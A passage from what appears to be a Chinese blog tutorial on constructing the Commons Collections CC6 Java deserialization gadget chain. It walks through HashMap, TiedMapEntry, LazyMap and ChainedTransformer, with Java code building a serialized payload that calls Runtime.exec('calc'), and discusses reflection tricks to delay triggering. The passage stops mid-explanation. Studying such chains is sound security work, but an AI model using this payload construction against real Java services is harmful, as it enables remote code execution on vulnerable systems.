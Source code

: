 后面就和URLDNS的构造一模一样了。

### HashMap链接到readObject

HashMap#hash()触发hashCode()

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240717203502638.png)

HashMap的readObject触发hash

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240720102312366.png)

按理说我们的代码就构造如下了

```java
public static void main(String[] args) throws Exception {
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
    };
    ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
    HashMap<Object, Object> map = new HashMap<>();
    Map lazyMap = LazyMap.decorate(map, chainedTransformer);
    TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test");
    HashMap<Object, Object> hashMap = new HashMap<>();
    hashMap.put(tiedMapEntry, "test");
    serialize(hashMap);
    unserialize("cc6.ser");
}
```

但是put的时候也触发了hash，导致在put的时候会弹一次计算器

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240720102700763.png)

我们看看，有没有能反射控制先不触发transform的地方

可以改TiedMapEntry的map为其他，可以改chainedTransformer的iTransformers为其他，也可以改LazyMap的factory为其他，唯独HashMap改不了。

我们就看改LazyMap吧

由于触发transform的地方在LazyMap.get处，而key可以是任意值，因为已经用ConstantTransformer固定了。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240720103345413.png)

所以控制key没用。那就控制factory

创建LazyMap时，factory先随便传，然后反射修改为chainedTransformer

我们看factory的定义，我们知道怎么修改访问权限，那final定义的常量怎么修改呢？

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240720103943804.png)
